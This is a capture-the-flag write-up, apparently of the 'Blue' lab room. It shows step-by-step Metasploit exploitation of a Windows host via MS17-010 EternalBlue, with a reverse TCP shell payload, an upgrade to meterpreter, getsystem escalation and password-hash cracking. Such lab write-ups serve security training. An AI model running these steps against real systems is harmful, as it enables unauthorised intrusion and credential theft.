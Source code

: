 # Blue
**Summary of Blue room:** Exploitation of Windows machine using MS17-010 Eternal Blue Exploit

## Recon phase
The room starts off with the recon phase where we need to gain information and the vulnerabilities which the targeted machine is vulnerable towards. 

The first question asks for the number of ports which are open with a port number of less than 1000. To find the answer, we use the following Nmap command to scan for available ports

![image](https://github.com/user-attachments/assets/fa197e7a-a273-4d6c-9e30-fd22d4fac375)

Next, the question prompts us to identify the vulnerability which the targeted machine is exposed to. To solve this question, we use the following nmap command, `nmap -sV --script vuln -v` followed by the ip address of the virtual machine.

**Nmap command breakdown:**
- `-sV` This scans for the versions of discovered services.
- `--script` Scripting Engine.
- `vuln` Investigate vulnerabilities or exploit vulnerable services.

![image](https://github.com/user-attachments/assets/de67172c-079c-4a00-b834-acaaa2fc7555)

The scan revealed that the targeted machine is vulnerable to the MS17-010 eternal blue vulnerability which exploits the Microsoft SMBv1 servers

![image](https://github.com/user-attachments/assets/37a4416c-0196-4fb7-8042-bdfc99e7a14c)

## Gaining access
The next step is to obtain access towards the targeted machine through the vulnerability found earlier on. This can be done by using Metasploit.

Firstly, we need to start metasploit by using the command, `msfconsole`

![image](https://github.com/user-attachments/assets/a98d03ce-7773-4360-af5a-ea5643ad8533)

Once metasploit is started, we shall search for the exploitation code we will run against the machine by using the command `search MS17-010` This will search all possible results containing MS17-010 vulnerability.

As the question requests for the full path code of the exploit which we will be using to exploit the targeted machine, it is `exploit/windows/smb/ms17_010_eternalblue`

![image](https://github.com/user-attachments/assets/f223a483-ba80-4545-ae65-12ecf0518a62)

Once we have identified the path code to be used to exploit the targeted machine, we need to select the option to utilize it by using the command `use` followed by the option number. In this case, the option we require is numbered 0 so we shall type `use 0`

![image](https://github.com/user-attachments/assets/36ca5e3f-031f-43a8-adb8-f62c8045ce54)

Moving on, we need to set few options to ensure that the exploit is targeted towards the required machine. The command `show options` lists down all the options which can be configured for the exploit.

![image](https://github.com/user-attachments/assets/410465e1-543f-437e-adc9-3717d97ef6cc)

Since the exploit only works with a targeted machine, we need to setup the required targeted machine to be exploited. This can be done by setting the `RHOSTS` option. To set the `RHOSTS` option, we will use the command, set RHOSTS followed by the targeted machine's ip address. In this case, it would be `set RHOSTS 10.10.16.35`

Once the targeted machine's ip address has been set, we can type in `show options` to ensure that the ip address is set correctly. The diagram below shows that the targeted machine's ip address has been set correctly, which is 10.10.16.35

![image](https://github.com/user-attachments/assets/834bc0bd-fe22-453b-b141-9e01541d361c)

Before running the exploit, we also need to change the payload option by using the command, `set payload windows/x64/shell/reverse_tcp`

![image](https://github.com/user-attachments/assets/73356649-69cb-40e8-9172-8fbee15903bd)

Once everything is setup correctly, we shall run the exploit towards the targeted machine by using the command, `exploit`

![image](https://github.com/user-attachments/assets/32354d66-8e1b-4b8a-acaf-0bd4dde5c53d)

A shell will be granted if the exploit is successful as shown below:

![image](https://github.com/user-attachments/assets/3603c027-5f7c-4016-b606-545d9ccb3f8e)

## Escalate phase
Background the shell

![image](https://github.com/user-attachments/assets/2c9a4fc8-a76b-402f-bf78-196187d658d8)

To perform more features on the targeted machine, we need to convert the shell to meterpreter shell in metasploit. We can use the following command `post/multi/manage/shell_to_meterpreter`


![image](https://github.com/user-attachments/assets/70342ff5-baa1-44cf-af27-ad4f1135e982)

use the path code and set the required options. 

![image](https://github.com/user-attachments/assets/092ad107-154d-4bdd-9c51-dcda4e5ceb95)

In this case, the shell which needs to be converted to meterpreter session has a session id of 1. Hence the session is set to 1 using the command, `set session 1`

![image](https://github.com/user-attachments/assets/0a0efb6d-edb2-4db1-9872-7f52bf3ec614)

![image](https://github.com/user-attachments/assets/6a0e09d2-aa96-4a7c-9dce-1c8715bb3c1e)

![image](https://github.com/user-attachments/assets/97feb3f5-1a59-4175-9dfb-acf044d7df47)

![image](https://github.com/user-attachments/assets/8bf03eff-8048-4f6d-a27e-fa580c44679a)

![image](https://github.com/user-attachments/assets/c2a9a798-3b49-4ffc-b403-cbfad84f2661)

Run getsystem to verify that we have escalated to NT AUTHORITY\SYSTEM.

![image](https://github.com/user-attachments/assets/80389fe7-4ef8-435a-845a-a1397c9abb7b)

![image](https://github.com/user-attachments/assets/8a7c2c26-c05a-40be-bfb5-9f7e0b44eedd)


## Cracking phase

![image](https://github.com/user-attachments/assets/b7a1f946-2d94-402e-aa77-95e7b837f87e)

Copy the hash to the text file named hash.txt using nano

![image](https://github.com/user-attachments/assets/005dfd78-d54e-4ef8-b034-751eca1c8b23)

![image](https://github.com/user-attachments/assets/5d27a3fc-8e1c-4e69-a295-fe51da1210b7)

![image](https://github.com/user-attachments/assets/cea864c7-7465-4bd3-8750-d861d577f165)






## Finding flags
### Flag 1
Based on the question, it is stated that flag 1 can be found at the system root, which is C:

![image](https://github.com/user-attachments/assets/8295c184-c850-46ca-b423-1c578cadcfc2)

### Flag 2
Based on the question, it is stated that flag 2 can be found at the location where passwords are stored within Windows. Since lsass.exe is stored in the C:\Windows\system32 which manages user credentials, we can assume flag2.txt is placed somewhere in system32 directory.

We can then use the search command to look for the file

![image](https://github.com/user-attachments/assets/5982d8b7-1e4d-4346-a8b4-47550a6d9e6b)

Once we have identified the exact location of the file, we can then navigate to the exact path to obtain the flag

![image](https://github.com/user-attachments/assets/db5c3f59-414d-4740-8b97-46fc5a9477f9)


### Flag 3
Based on the question, flag 3 can be found in the location where things are usually stored by the adminstrator. In this case, it would be the user directory. 

Once we are in the Users directory, we can examine the Documents directory for the text file containing the flag, flag3.txt

![image](https://github.com/user-attachments/assets/dfbda33f-2493-457e-882c-a0ba52de167c)
